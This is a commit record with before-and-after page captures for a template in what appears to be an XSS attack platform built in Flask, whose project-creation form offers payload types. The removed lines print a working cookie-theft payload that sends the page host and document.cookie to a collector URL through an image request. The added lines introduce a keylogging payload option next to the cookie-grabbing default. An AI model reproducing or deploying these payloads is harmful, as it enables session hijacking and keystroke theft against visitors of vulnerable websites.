

Before and after one commit to grey125/gxss, a Flask app: page /project/create in a window 1280 px wide. Shown: the part 51-504 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1).

Commit message:
Update project_create.html

```diff
--- a/templates/project_create.html
+++ b/templates/project_create.html
@@ -7,43 +7,23 @@
     function toggleTextarea() {
         const select = document.getElementById('len');
         const textarea = document.getElementById('description');
-    if (select.value === '1') {
+
+        // 如果选择的是 '自定义代码' (值为 3)
+        if (select.value === '2') {
             textarea.disabled = false; // 启用 textarea
+
         } else {
             textarea.disabled = true; // 禁用 textarea
-
+            textarea.value = ''; // 清空 textarea 内容
         }
     }
 
-function toHex(str) {
-    const encoder = new TextEncoder(); // 使用 UTF-8 编码
-    const encoded = encoder.encode(str); // 返回 Uint8Array
-    let result = '';
-    for (let byte of encoded) {
-        result += byte.toString(16).padStart(2, '0'); // 转为两位 16 进制
-    }
-    return result;
-}
-
-
-window.addEventListener('DOMContentLoaded', (event) => {
-    const input = document.getElementById('dynamicInput');
-    const textarea = document.getElementById('description');
-
-    input.addEventListener('input', function () {
-        const dynamicValue = input.value || '[dynamic_value]'; // 默认占位符
-        const hexValue = toHex(dynamicValue); // 转换为 16 进制
-        textarea.value = `var img=document.createElement("img");
-img.src="host:receive?h="+escape(document.location.host)+"&m="+escape(document.cookie)+"&u=grey"+"&n=${hexValue}";
-document.body.appendChild(img);`;
-    });
-});
     </script>
 
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-<link rel="stylesheet" href="{{ url_for('static',filename='css/bootstrap.min.css') }}">
-<link rel="stylesheet" href="{{ url_for('static',filename='css/bootstrap-theme.min.css') }}">
-<link rel="stylesheet" href="{{ url_for('static',filename='css/css.css') }}">
+    <link rel="stylesheet" href="{{ url_for('static', filename='css/bootstrap.min.css') }}">
+    <link rel="stylesheet" href="{{ url_for('static', filename='css/bootstrap-theme.min.css') }}">
+    <link rel="stylesheet" href="{{ url_for('static', filename='css/css.css') }}">
 </head>
 <body>
     <div class="navbar navbar-fixed-top navbar-inverse">
@@ -51,15 +31,13 @@ document.body.appendChild(img);`;
             <div class="collapse navbar-collapse">
                 <ul class="nav navbar-nav">
                     <li><a href="/home">主页</a></li>
-		  <li class="active"><a href="/config">项目配置</a></li>
+                    <li class="active"><a href="/project">项目配置</a></li>
                 </ul>
                 <ul class="nav navbar-nav navbar-right ng-scope" ng-controller="user_ctrl" id="header_me">
                     <li>
                         <a href="#" wt-tracker="Header|Menu|Goto Apply" style="font-weight: bold; color: white;">账号 : {{ username }}</a>
                     </li>
-
-
-                <iframe id="tmp_downloadhelper_iframe" style="display: none;"></iframe></li>
+                    <iframe id="tmp_downloadhelper_iframe" style="display: none;"></iframe>
                     <li>
                         <a href="/user" wt-tracker="Header|Menu|Goto Apply">个人设置</a>
                     </li>
@@ -68,9 +46,9 @@ document.body.appendChild(img);`;
                     </li>
                 </ul>
             </div><!--/.nav-collapse -->
-      <iframe  style="display: none;"></iframe></div>
+            <iframe  style="display: none;"></iframe>
         </div>
-
+    </div>
 
     <div class="container">
         <div class="panel panel-default">
@@ -85,15 +63,13 @@ document.body.appendChild(img);`;
                         <label>JS代码：</label><br>
                         <select name="len" id="len" onchange="toggleTextarea()">
                             <option value="0">默认(获取Cookie)</option>
-        <option value="1">自定义代码</option>
+                            <option value="1">键盘记录</option>
+                            <option value="2">自定义代码</option>
                         </select>
                     </p>
                     <p>
                         <label for="description">自定义代码：</label><br>
                         <textarea name="description" id="description" style="height: 147px; width: 474px;" disabled>
-var img=document.createElement("img");
-img.src="host:receive?h="+escape(document.location.host)+"&m="+escape(document.cookie)+"&u=grey"+"&n=[dynamic_value]";
-document.body.appendChild(img);
                         </textarea>
                     </p>
                     <p>
```
Lines whose indentation alone changed are shown as unchanged.
